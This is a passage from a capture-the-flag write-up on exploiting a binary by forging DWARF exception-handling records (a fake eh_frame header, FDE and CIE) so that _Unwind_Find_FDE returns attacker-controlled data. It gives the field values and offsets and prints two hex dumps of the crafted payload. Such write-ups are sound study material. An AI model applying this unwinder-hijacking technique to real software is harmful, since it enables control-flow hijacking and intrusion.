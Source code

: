 Also, the **fde** field is actually an (signed) offset from **hdr** &#8212; due to (DW\_EH\_PE\_datarel | DW\_EH\_PE\_sdata4) encoding. So, we set it to **0x14** to indicate that our fake **dwarf_fde** struct will be located at **0x40025068**.

Fake **hdr** and **table** construction is done, and we now have this:

<pre class="nums:false lang:default highlight:0 decode:true" title="payload">00000000  73 74 64 63 68 70 69 65  0a 41 18 b1 2e 40 1c 50  |stdchpie.A...@.P|
00000010  02 40 41 41 41 41 41 42  41 42 42 42 00 00 00 00  |.@AAAAABABBB....|
00000020  ff ff ff ff 00 00 00 00  34 50 02 40 43 43 43 43  |........4P.@CCCC|
00000030  00 00 00 00 50 e5 74 64  44 44 44 44 54 50 02 40  |....P.tdDDDDTP.@|
00000040  45 45 45 45 46 46 46 46  47 47 47 47 48 48 48 48  |EEEEFFFFGGGGHHHH|
00000050  49 49 49 49 01 1b 03 3b  4a 4a 4a 4a 01 00 00 00  |IIII...;JJJJ....|
00000060  ac af fd bf 14 00 00 00                           |........|</pre>

The current payload, when fed to the program, will result in a crash since it will read an invalid value for the range.  
To make <span class="lang:default decode:true  crayon-inline ">data->pc < initial_loc + data_base + range</span>  true, we need to construct a fake **dwarf_fde** now.

## 4-4. fde & cie construction

As a final step, we are going to construct **fde** and **cie** records in our payload.

**dwarf_fde** struct has **length**, **CIE_delta**, and **pc_begin** fields (followed by *fde_augmentation length*, which should be 0).

We are going to make the **length** **0x1C**, and **CIE_delta** to **0xFFFFFFE4** (such that <span class="lang:default decode:true  crayon-inline ">&CIE_delta &#8211; CIE_delta == 0x40025088</span> &#8212; this will be explained later). We will set **pc_begin** to 0x0 (doesn&#8217;t really matter what we put here).

What comes after **pc_begin** is the **range**. To explain a little bit, on line 412 in *unwind-dw2-fde-dip.c*, **range** is read from** f->pc\_begin[f\_enc_size]** where **f\_enc\_size** is **4**, making the 4 byte right after **pc_begin** be the **range**. Since we made the **init_loc** to be **0x0**, we will make the **range** to be **0xFFFFFFFF**. Then, we pad the last few bytes (so, technically we can fix the length, but that&#8217;s what we used during the competition).

This yields our payload to be:

<pre class="nums:false lang:default highlight:0 decode:true" title="payload">00000000  73 74 64 63 68 70 69 65  0a 41 18 b1 2e 40 1c 50  |stdchpie.A...@.P|
00000010  02 40 41 41 41 41 41 42  41 42 42 42 00 00 00 00  |.@AAAAABABBB....|
00000020  ff ff ff ff 00 00 00 00  34 50 02 40 43 43 43 43  |........4P.@CCCC|
00000030  00 00 00 00 50 e5 74 64  44 44 44 44 54 50 02 40  |....P.tdDDDDTP.@|
00000040  45 45 45 45 46 46 46 46  47 47 47 47 48 48 48 48  |EEEEFFFFGGGGHHHH|
00000050  49 49 49 49 01 1b 03 3b  14 00 00 00 01 00 00 00  |IIII...;........|
00000060  ac af fd bf 14 00 00 00  1c 00 00 00 e4 ff ff ff  |................|
00000070  00 00 00 00 ff ff ff ff  00 00 00 00 00 00 00 00  |................|
00000080  00 00 00 00 00 00 00 00                           |........|</pre>

We are almost there!!!

Above payload will result in <span class="lang:default decode:true  crayon-inline ">data->ret</span>  to contain a pointer to our FDE struct and return to **\_Unwind\_Find_FDE**.
